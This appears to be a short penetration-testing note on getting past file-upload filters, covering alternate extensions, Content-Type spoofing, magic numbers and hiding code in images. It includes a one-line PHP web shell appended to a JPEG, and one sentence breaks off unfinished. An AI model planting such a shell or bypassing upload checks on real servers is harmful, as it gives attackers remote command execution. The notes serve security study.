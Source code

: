 # File Types
In some cases servers may block some, but not all file extensions.

| Language | Extensions |
|----------|------------|
| php      | phtml php php3 php4 php5 inc |
| asp      | asp aspx |
| perl     | pi pm cgi lib |
| jsp      | jsp jspx jsw jsv jspf |
| coldfusion | cfw cfml cfc dbm |

# MIME Types
Servers will check to see if a file has the right MIME Type. Using an intercepting proxy we can change our request in transit using the `Content-Type` header field. This will circumvent client side filters.

# Magic Numbers
Some upload filtering may check magic numbers to determine the file type. [Magic number cheatsheet](../../Cheatsheets/magic-numbers.md)
To bypass some filters you may

# Steganography
The practice of concealing information wihtin another message or physical object in order to avoid detection.

## Hiding code in images
These techniques may be useful, but they are also very easy to detect. Altering the image file will change it's file hash as well as inflate it's size.

Appending a string to the end of an image file will allow it to still be render, but also provide a unique attack vector.
```sh
echo '<?php echo shell_exec($_GET["cmd"]);?>' >> image.jpg
```
Using the same method you can attach an entire file to the image. That can later be extracted.
```sh
cat rar.rar >> image.jpg
```

Read the file
```sh
hexdump image.jpg | tail -10 | xxd -r -p
```

## Least Significant Bit (LSB) Manipulation
Consider an image to be a 2D array of pixels. Pixels in a coloured image are represented by 3 bytes (Red, Green, Blue). 
![LSB](Images/lsb.png)

